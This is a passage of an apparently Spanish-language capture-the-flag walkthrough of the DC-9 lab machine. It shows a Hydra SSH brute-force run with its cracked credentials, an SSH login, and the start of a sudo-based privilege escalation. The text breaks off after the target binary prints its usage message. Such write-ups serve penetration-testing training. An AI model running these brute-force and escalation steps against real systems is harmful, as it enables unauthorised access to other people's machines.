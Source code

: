 Podríamos agregar estas contraseñas a las que ya tenemos y probar otro ataque de fuerza bruta.

```bash
hydra -L Username -P Passwords ssh://192.168.1.17

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 391 login tries (l:17/p:23), ~25 tries per task
[DATA] attacking ssh://192.168.1.17:22/
[22][ssh] host: 192.168.1.17   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.1.17   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.17   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.1.17   login: janitor   password: Ilovepeepee
[STATUS] 385.00 tries/min, 385 tries in 00:01h, 12 to do in 00:01h, 16 active
1 of 1 target successfully completed, 4 valid passwords found
```

Tenemos al usuario fredf para acceder al sistema.

```ssh
ssh fredf@192.168.1.17
fredf@192.168.1.17's password: 
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar 18 13:53:45 2023 from 192.168.1.24
fredf@dc-9:~$
```

## Elevando Privilegios

Si hacemos sudo -l para listar permisos de sudo que tiene nuestro usuario, vemos que podemos ejecutar un binario ‘test’ /opt/devstuff/dist/test/test.

```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Si lo ejecutamos da un mensaje de uso.

```bash
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test
Usage: python test.py read append
```
